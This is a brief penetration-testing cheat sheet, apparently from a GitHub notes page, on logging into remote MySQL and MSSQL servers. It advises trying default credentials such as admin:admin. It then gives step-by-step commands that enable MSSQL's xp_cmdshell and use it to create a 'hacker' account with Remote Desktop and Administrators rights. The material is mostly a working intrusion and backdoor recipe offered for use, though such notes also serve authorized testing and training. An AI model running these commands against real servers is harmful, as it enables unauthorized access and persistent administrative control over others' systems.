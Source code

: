 ## Databases

Use the following command to logged in remote database with username / password you found.
Always try common combination such as guest:guest, guest:<NO PASSWORD>, admin:admin


## MySQL

```
root@kali:~# mysql -u fooUser -p -h 192.168.11.10
Enter password: 
```

## MSSQL

```
root@kali:~# sqsh -S 192.168.11.10:1444 -U ralph
sqsh-2.1.7 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2010 Michael Peppler
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
Password: 
```

### Abuse MSSQL to RCE

If you have SA or admin priviliaged account on remote  MSSQL instance, use the following command to exeute command or shell:

```
sqsh-2.1.7> EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
sqsh-2.1.7> go
sqsh-2.1.7> EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
sqsh-2.1.7> go
sqsh-2.1.7> EXEC xp_cmdshell 'cmd.exe /K net user hacker hackpwd /add & net localgroup “Remote Desktop Users” hacker /add && net localgroup Administartors hacker /add'
sqsh-2.1.7> go
```
